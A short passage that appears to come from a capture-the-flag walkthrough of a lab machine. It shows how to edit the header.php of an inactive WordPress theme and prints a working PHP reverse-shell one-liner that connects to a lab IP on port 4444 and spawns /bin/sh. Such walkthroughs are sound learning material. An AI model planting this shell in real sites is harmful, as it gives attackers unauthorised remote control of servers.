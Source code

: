 Select header.php of inactive theme.

![](../../assets/images/sunsetmidnight_headerphp.png)

Insert php reverse shell into header.

```
<?php $sock=fsockopen("192.168.45.162",4444);$proc=proc_open("/bin/sh -i",array(0=>$sock, 1=>$sock, 2=>$sock), $pipes); ?>
```

![](../../assets/images/susnetmidnight_reverse_shell.png)
